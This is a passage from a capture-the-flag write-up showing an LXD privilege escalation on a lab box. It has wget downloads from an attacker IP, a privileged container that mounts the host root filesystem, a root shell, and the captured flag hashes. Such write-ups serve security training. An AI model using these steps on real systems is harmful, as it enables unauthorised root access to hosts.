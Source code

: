 
- on the victim machine need to import the files using a file server 
```shell
mike@included:/tmp$ wget 10.10.14.26/lxd.tar.xz
--2023-04-13 08:00:05--  http://10.10.14.26/lxd.tar.xz
Connecting to 10.10.14.26:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 884 [application/x-xz]
Saving to: ‘lxd.tar.xz’

lxd.tar.xz          100%[===================>]     884  --.-KB/s    in 0s      

2023-04-13 08:00:05 (21.4 MB/s) - ‘lxd.tar.xz’ saved [884/884]


mike@included:/tmp$ wget 10.10.14.26/rootfs.squashfs
--2023-04-13 08:00:38--  http://10.10.14.26/rootfs.squashfs
Connecting to 10.10.14.26:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2056192 (2.0M) [application/octet-stream]
Saving to: ‘rootfs.squashfs’

rootfs.squashfs     100%[===================>]   1.96M  1.75MB/s    in 1.1s    

2023-04-13 08:00:40 (1.75 MB/s) - ‘rootfs.squashfs’ saved [2056192/2056192]

mike@included:/tmp$ 

```

- add the files to the image 
```shell
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
lxc image list #You can see your new imported image

```

- Create a container and add root path
```shell
lxc init alpine privesc -c security.privileged=true


lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

- Execute the container 
```shell
lxc start privesc
lxc exec privesc /bin/sh
[email protected]:~# cd /mnt/root #Here is where the filesystem is mounted
```

user flag = a56ef91d70cfbf2cdb8f454c006935a1
c693d9c7499d9f572ee375d4c14c7bcf
---
## Tags

----
## Resources

Tftp not requiring authentication - https://www.lifewire.com/definition-of-tftp-817576#:~:text=Unlike%20FTP%2C%20TFTP%20has%20no,TFTP%20is%20usually%20not%20allowed.